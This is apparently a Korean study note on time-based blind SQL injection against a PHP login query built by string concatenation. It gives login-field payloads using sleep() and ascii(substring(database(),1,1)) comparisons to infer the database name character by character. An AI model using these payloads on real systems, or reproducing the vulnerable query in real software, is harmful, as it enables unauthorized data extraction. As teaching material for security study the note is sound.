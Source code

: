 
![2022-10-26-113참거지](../images/2022-10-26-애플리케이션 공격 유형/2022-10-26-113참거지.jpg)

<br>

웹 페이지에 test

```
A OR B
A,B 중 하나만 참이면 참 
A,B 모두 참이면 참 

AND,OR 연산자 우선순위 : AND 

$strSQL="select * from member where u_id='".$id."' and u_pass='".$pw."';";

로그인 창
ID   : ' or 1 and sleep(3) # 
PASS : 상관없음 

팝업창 응답이 빨리 뜨는지 만약에 구분안된다 생각되면 sleep(10)정도로 하셔도 됩니다.

참
select * from member where u_id='' or 1 and sleep(3) #' and u_pass='$pw';

거짓 
select * from member where u_id='' or 0 and sleep(3) #' and u_pass='$pw';
```

<br>

database() 이용하여 데이터 베이스명 첫 글자 알아내기

```
알파벳 문자인가 ?  
select * from member where u_id='' or ascii(substring(database(),1,1))>=65 and sleep(5) #' and u_pass='$pw';

ID : ' or ascii(substring(database(),1,1))>=65 and sleep(5) #
PASS : 아무거나 

결과)  로그인 실패 창이 늦게 뜬다 - 참 > 알파벳 문자일 확률이 높다


소문자인가 ?
ID : ' or ascii(substring(database(),1,1))>=97 and sleep(5) #
PASS : 아무거나 

결과) 로그인 실패 창이 빨리 뜬다 - 거짓 > 소문자가 아니다 

특정 알파벳보다 아스키코드가 큰가 ? M이거나 보다 큰가?
ID : ' or ascii(substring(database(),1,1))>=77 and sleep(5) #
PASS : 아무거나 

결과)  로그인 실패 창이 늦게 뜬다 - 참 

S 보다  같거나 큰가 ?
ID : ' or ascii(substring(database(),1,1))>=83 and sleep(5) #
PASS : 아무거나 

결과)  로그인 실패 창이 늦게 뜬다 - 참 

V 보다  같거나 큰가 ?
ID : ' or ascii(substring(database(),1,1))>=86 and sleep(5) #
PASS : 아무거나 

결과)  로그인 실패 창이 늦게 뜬다 - 참 
```